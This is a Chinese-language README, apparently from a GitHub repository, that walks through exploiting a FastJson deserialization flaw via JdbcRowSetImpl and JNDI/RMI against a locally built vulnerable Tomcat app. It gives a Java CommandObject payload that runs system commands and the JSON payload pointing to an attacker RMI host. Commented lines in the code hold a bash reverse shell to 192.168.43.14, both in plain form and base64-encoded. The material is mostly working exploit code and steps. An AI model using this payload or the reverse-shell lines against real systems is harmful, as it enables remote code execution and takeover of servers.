 # FastJson-JdbcRowSetImpl

## 漏洞环境构建

```
root@Bearcat:/# wget "https://github.com/iBearcat/FastJson-JdbcRowSetImpl/raw/master/FastJson_Vul.war" -P path.... & cd  ${path}/opt/apache-tomcat-8.5.24/bin & ./startup.sh"
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/1.jpg?raw=true)

### 访问漏洞环境 http://localhost:8888/FastJson_Vul

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/2.jpg?raw=true)

## 漏洞利用

### 在CommandObject.java类中的commands数组中构造想要执行的命令

### 编译 javac CommandObject.java

```
import	java.lang.Runtime;
import	java.lang.Process;
public class CommandObject {
    public CommandObject(){
        try{
			Runtime	rt	=	Runtime.getRuntime();
			//Runtime.getRuntime().exec("/bin/bash -i >&/dev/tcp/192.168.43.14/2018<&1");
			//String[] commands = {"bash -c {echo,L2Jpbi9iYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC40My4xNC8yMDE4PCYx}|{base64,-d}|{bash,-i}"};
			
			String[] commands = {"touch","/opt/test"}; //Command
			Process	pc = rt.exec(commands);
			pc.waitFor();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        CommandObject e = new CommandObject();
    }
}
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/3.jpg?raw=true)

## 漏洞利用

### 开启一个HTTP服务，并且开启 RMIServer

### 如：

```
Python2 -m SimpleHTTPServer 80
Python3 -m http.server 80
```

### 生成Payload

```
java -jar FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar <HTTP服务地址> 指定RMI端口
```

### FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar 会生成一串Json Payload

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/4.jpg?raw=true)

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.43.14:6666/Object","autoCommit":true}
```

### 把它Copy到漏洞环境的input中，然后submit进行攻击。

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/5.jpg?raw=true)


### 成功执行命令，并touch test

```
String[] commands = {"touch","/opt/test"}; //Command
```
![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/6.jpg?raw=true)

# 致谢我的好基友

### pyn3rd https://github.com/pyn3rd/CVE-2018-2893
### 背影   https://github.com/yanweijin

